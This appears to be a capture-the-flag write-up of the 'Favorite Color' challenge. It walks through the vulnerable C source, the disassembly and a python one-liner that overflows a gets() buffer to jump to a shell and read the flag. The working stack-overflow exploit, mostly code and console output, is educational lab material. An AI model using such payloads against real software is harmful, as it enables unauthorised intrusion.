 # Favorite Color
## Description
What's your favorite color? Would you like to share with me? Run the command: `ssh color@104.131.79.111 -p 1001` (pw: guest) to tell me!
## Hints
(None)
## Solution
1. Login to the server and take a look. The file `flag.txt` is of interest, but we can't open it. Inspecting `color.c`, the function `vuln` will be our focus.
```console
color@ubuntu-512mb-nyc3-01:~$ ll
total 40
dr-xr-x---  2 root color     4096 Apr 24  2018 ./
drwxr-xr-x 20 root root      4096 Oct 28  2021 ../
-r--r--r--  1 root root       220 Aug 31  2015 .bash_logout
-r--r--r--  1 root root      3771 Aug 31  2015 .bashrc
-r--r--r--  1 root root         0 Sep  1  2017 .cloud-locale-test.skip
-r-xr-sr-x  1 root color_pwn 7672 Sep 12  2017 color*
-r--r--r--  1 root root       722 Sep 12  2017 color.c
-r--r-----  1 root color_pwn   24 Sep 12  2017 flag.txt
-r--r--r--  1 root root       714 Sep 12  2017 Makefile
-r--r--r--  1 root root       655 May 16  2017 .profile
color@ubuntu-512mb-nyc3-01:~$ ./color
Enter your favorite color: blue
Boo... I hate that color! :(
color@ubuntu-512mb-nyc3-01:~$ cat flag.txt
cat: flag.txt: Permission denied
```
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int vuln() {
    char buf[32];
    
    printf("Enter your favorite color: ");
    gets(buf);
    
    int good = 0;
    for (int i = 0; buf[i]; i++) {
        good &= buf[i] ^ buf[i];
    }
    
    return good;
}

int main(char argc, char** argv) {
    setresuid(getegid(), getegid(), getegid());
    setresgid(getegid(), getegid(), getegid());
    
    //disable buffering.
    setbuf(stdout, NULL);
    
    if (vuln()) {
        puts("Me too! That's my favorite color too!");
        puts("You get a shell! Flag is in flag.txt");
        system("/bin/sh");
    } else {
        puts("Boo... I hate that color! :(");
    }
}
```
2. We will never return anything but `0` from `vuln`. How do we get around this? A simple buffer overflow exploiting `gets` and replacing the return address with one of our choosing. If we look at `vuln` in GDB, we see that the buffer is `48 (0x30)` bytes. Including the pushed value of EBP, we need to overflow `52` bytes and then insert our return address.
```console
color@ubuntu-512mb-nyc3-01:~$ gdb -q color
Reading symbols from color...(no debugging symbols found)...done.
(gdb) disas vuln
Dump of assembler code for function vuln:
   0x0804858b <+0>:   push   ebp
   0x0804858c <+1>:	  mov    ebp,esp
   0x0804858e <+3>:	  sub    esp,0x38
   0x08048591 <+6>:	  sub    esp,0xc
   0x08048594 <+9>:	  push   0x8048730
   0x08048599 <+14>:	call   0x8048410 <printf@plt>
   0x0804859e <+19>:	add    esp,0x10
   0x080485a1 <+22>:	sub    esp,0xc
   0x080485a4 <+25>:	lea    eax,[ebp-0x30]
   0x080485a7 <+28>:	push   eax
   0x080485a8 <+29>:	call   0x8048420 <gets@plt>
   0x080485ad <+34>:	add    esp,0x10
   0x080485b0 <+37>:	mov    DWORD PTR [ebp-0xc],0x0
   0x080485b7 <+44>:	mov    DWORD PTR [ebp-0x10],0x0
   0x080485be <+51>:	jmp    0x80485cb <vuln+64>
   0x080485c0 <+53>:	mov    DWORD PTR [ebp-0xc],0x0
   0x080485c7 <+60>:	add    DWORD PTR [ebp-0x10],0x1
   0x080485cb <+64>:	lea    edx,[ebp-0x30]
   0x080485ce <+67>:	mov    eax,DWORD PTR [ebp-0x10]
   0x080485d1 <+70>:	add    eax,edx
   0x080485d3 <+72>:	movzx  eax,BYTE PTR [eax]
   0x080485d6 <+75>:	test   al,al
   0x080485d8 <+77>:	jne    0x80485c0 <vuln+53>
   0x080485da <+79>:	mov    eax,DWORD PTR [ebp-0xc]
   0x080485dd <+82>:	leave  
   0x080485de <+83>:	ret    
End of assembler dump.
```
3. What return address do we target? We need to bypass the `if` statement in `main` that checks the return value of `vuln`. That gives us a return address of `0x08048657`, right after the `je 0x8048689` instruction.
```console
   0x0804864e <+111>:	call   0x804858b <vuln>
   0x08048653 <+116>:	test   eax,eax
   0x08048655 <+118>:	je     0x8048689 <main+170>
   0x08048657 <+120>:	sub    esp,0xc
```
4. Exploit!
```console
color@ubuntu-512mb-nyc3-01:~$ (python -c 'print("a"*52 + "\x57\x86\x04\x08")'; cat) | ./color
Enter your favorite color: Me too! That's my favorite color too!
You get a shell! Flag is in flag.txt
ls
color  color.c	flag.txt  Makefile
cat flag.txt
flag{c0lor_0f_0verf1ow}
```
